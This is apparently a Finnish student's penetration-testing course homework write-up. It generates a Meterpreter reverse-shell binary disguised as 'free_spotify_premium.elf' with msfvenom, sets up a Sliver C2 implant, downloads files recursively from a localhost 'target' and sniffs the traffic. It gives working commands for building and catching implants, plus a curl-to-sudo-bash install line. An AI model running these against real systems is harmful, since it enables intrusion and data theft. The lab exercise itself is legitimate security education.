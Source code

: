 # h6 Simpukoita
Kotitehtävä h5 Syyskuu2025! Tero Karvisen Tunkeutumistestaus 2025 syksy -kurssille. [Linkki kurssisivulle](https://terokarvinen.com/tunkeutumistestaus/)
Jokaisessa kohdassa on alla olevalla "quote" tyylillä kerrottu tehtävänanto.
>Liirum laarum laa...

## Tehtävät
### a) 
> Snif Venom! Näytä esimerkki yhteydestä: reverse shell msfvenom:lla tehdystä binääristä -> metasploit multi/handler. Tarkastele yhteysttä snifferillä, kuten Wireshark. Mitä havaitset? Mistä ominaisuuksista yhteyden voi tunnistaa? Millä muutoksilla tunnistamista voi vaikeuttaa?

Aluksi tein reverse shell haittatiedoston msfvenomilla sekä vaihdoin tiedoston oikeudet.

    mdkdir msfvenom
    cd msfvenom
    msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f elf > free_spotify_premium.elf

![alt text](image.png)

Tämän jälkeen avasin `msfconsolen`. Sitten asetin moduulin `use exploit/multi/handler` sekä payloadin `set payload linux/x64/meterpreter/reverse_tcp`.

![alt text](image-1.png)

Sitten vielä LHOST:n sekä LPORT:n asettaminen.

![alt text](image-2.png)

 Kaikessa tässä pitää käyttää samoja asetuksia, kuin tehdyssä haittaohjelmassa.

Nyt testataan, että toimiiko reverse shell. Suoritetaan haittaohjelma ``./free_spotify_premium.elf`` sekä suoritetaan hyökkäys metasploitissa `use`. Ja sehän onnistui. 

![alt text](image-3.png)

Avasin wiresharkin ja valitsin, että wireshark tarkastelee ``loopback: lo`` interfacea. Vaikka meterpeter vain kuuntelee, näkyy silti sen ja kohdekoneen välinen liikenne wiresharkissa. 

![alt text](image-4.png)

 ### b)
 > Hello, Sliver. Näytä esimerkki http-yhteydestä Sliverillä.

Aloitin lataamalla sliverin komennolla `curl https://sliver.sh/install|sudo bash` jonka jälkeen käynnistin sen `sliver`

![alt text](image-5.png)

Lähdin tämän jälkeen sueraaman sliverin sivuilta löytyvää tutoriaalia, https://sliver.sh/tutorials?name=1+-+Getting+Started. Se on tehty uudemmalle 1.6 versiolle, mutta katsotaan toimiiko se myös tällä vanhemmalla versiolla.

Loin haittaohjelman "implantin" komennolla `generate -b localhost --os linux --skip-symbols --debug`.

![alt text](image-6.png)

Sen jälkeen katsoin, oliko implant tullut sliveriin käytettäväksi ja käynnistin kuuntelijan portissa 80.

![alt text](image-7.png)

Kun nyt olin käynnistänyt kuuntelijan, suoritin implantin. Tästä tuli ilmoitus sliveriin, että uusi sessio avattu. 

![alt text](image-8.png)

Enää ei tarvinnut tehdä muuta kuin `use` jonka jälkeen kirjoitin implantin nimen `PRECIOUS_WINTER`. Implant toimi onnistuneesti ja testasin `ls` komentoa.

![alt text](image-9.png)

Testasin vielä ladata jonkin tiedoston kohdekoneelta omalle koneelleni. Tätä varten tein muutaman tiedoston.

    ┌──(ttma㉿tuntem)-[~]
    └─$ mkdir testfolder
                                                                                            
    ┌──(ttma㉿tuntem)-[~]
    └─$ cd testfolder 
                                                                                            
    ┌──(ttma㉿tuntem)-[~/testfolder]
    └─$ echo "hi" > hi.txt
                                                                                            
    ┌──(ttma㉿tuntem)-[~/testfolder]
    └─$ echo "hello" > hello.txt
                                                                                            
    ┌──(ttma㉿tuntem)-[~/testfolder]
    └─$ cd ..        
                                                                                            
    ┌──(ttma㉿tuntem)-[~]
    └─$ mkdir hifolder          
                                                                                            
    ┌──(ttma㉿tuntem)-[~]
    └─$ cd hifolder 
                                                                                            
    ┌──(ttma㉿tuntem)-[~/hifolder]
    └─$ mkdir lol     
                                                                                            
    ┌──(ttma㉿tuntem)-[~/hifolder]
    └─$ cd lol     
                                                                                            
    ┌──(ttma㉿tuntem)-[~/hifolder/lol]
    └─$ echo "hello" > hello.txt
                                                                                            
    ┌──(ttma㉿tuntem)-[~/hifolder/lol]
    └─$ echo "hi" > hi.txt      
                                                                                    
    ┌──(ttma㉿tuntem)-[~/hifolder/lol]
    └─$ 

Sitten latasin koko kansion tiedostot sliverilla `download -r /home/ttma/
`. Tässä `-r` parametri kertoo, että ladataan rekursiivisesti koko kansio.

![alt text](image-10.png) 

![alt text](image-11.png)

![alt text](image-12.png)

### c)
>Sniff Sliver! Tarkastele Sliverin http-yhteyttä snifferillä. Mitä havaitset? Mistä ominaisuuksista yhteyden voi tunnistaa?

Otin tässä vaiheessa pienen tauon ja sammutin koneen. Kun koitin jatkaa, ei sliver lähtenyt päälle. Löysin googlettamalla `Connecting to localhost:31337 ...
Connection to server failed context deadline exceeded ` vastauksen ongelmaan. Ensimmäisenä hakutuloksena tuli vastaan discussion sliverin repossa, jossa neuvottiin aloittamaan sliver.service uudelleen `sudo systemctl start sliver.service`. Testasin tätä ja onnekseni se toimi. 

![alt text](image-13.png)

Sitten vielä `http` jotta saan portin auki kuuntelua varten, `./PRECIOUS_WINTER` käynnistän implantin toisessa konsolissa sekä `use` sliverissä. Nyt sain taas sliverin kautta yhteyden. 



# Lähteet
https://terokarvinen.com/tunkeutumistestaus/
https://github.com/BishopFox/sliver
https://sliver.sh/
https://sliver.sh/tutorials?name=1+-+Getting+Started
https://github.com/BishopFox/sliver/discussions/1320